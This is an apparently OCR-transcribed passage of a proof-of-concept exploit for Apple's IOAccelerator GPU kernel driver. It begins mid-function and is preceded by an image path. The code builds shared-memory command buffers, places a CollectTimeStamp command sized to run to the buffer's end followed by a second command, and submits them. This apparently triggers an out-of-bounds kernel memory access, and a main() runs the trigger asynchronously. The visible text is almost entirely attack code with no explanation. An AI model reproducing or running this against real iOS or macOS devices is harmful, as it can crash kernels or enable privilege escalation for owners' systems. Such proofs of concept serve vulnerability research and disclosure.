 ```cpp
	struct IOAccelDeviceShmemData *segment_list_shmem = IOAccelSharedUserClient2_create_shmem(IOAccelSharedUserClient2, 0x4000);

	mach_port_t notification_port = 0;
	mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &notification_port);
	IOAccelCommandQueue2_set_notification_port(IOAccelCommandQueue2, notification_port);

	pthread_t notification_recv_thread;
	pthread_create(&notification_recv_thread, NULL, notification_recv_func, (void *)(uintptr_t)notification_port);

	struct {
		struct IOAccelCommandQueueSubmitArgs_Header header;
		struct IOAccelCommandQueueSubmitArgs_Command command;
	} submit_args = {};
	submit_args.header.count = 1;
	submit_args.command.command_buffer_shmem_id = command_buffer_shmem->shmem_id;
	submit_args.command.segment_list_shmem_id   = segment_list_shmem->shmem_id;

	struct IOAccelSegmentListHeader *slh = (void *)segment_list_shmem->data;
	slh->length = 0x100;
	slh->segment_count = 1;
	struct IOAccelSegmentResourceListHeader *srlh = (void *)(slh + 1);
	srlh->kernel_commands_start_offset = 0;
	srlh->kernel_commands_end_offset = 0x4000;

	struct IOAccelKernelCommand_CollectTimeStamp *cmd1 = (void *)command_buffer_shmem->data;
	cmd1->command.type = 2;
	cmd1->command.size = 0x4000 - 8;
	struct IOAccelKernelCommand_CollectTimeStamp *cmd2 = (void *)((uint8_t *)cmd1 + cmd1->command.size);
	cmd2->command.type = 2;
	cmd2->command.size = 8;

#define KTRW 0

	printf("IOAccelCommandQueue2::submit_command_buffers()\n");
#if KTRW
	sleep(4);
#endif
	IOAccelCommandQueue2_submit_command_buffers(IOAccelCommandQueue2, &submit_args.header, sizeof(submit_args));
	printf("timestamp = %llx\n", cmd1->timestamp);
#if KTRW
	sleep(4);
#endif
}

int main(int argc, char *argv[], char *envp[]) {
	dispatch_async(dispatch_get_global_queue(DISPATCH_QUEUE_PRIORITY_DEFAULT, 0), ^{
		poc();
		usleep(100000);
		exit(1);
	});
	while(1) {};
    return 0;
}

```
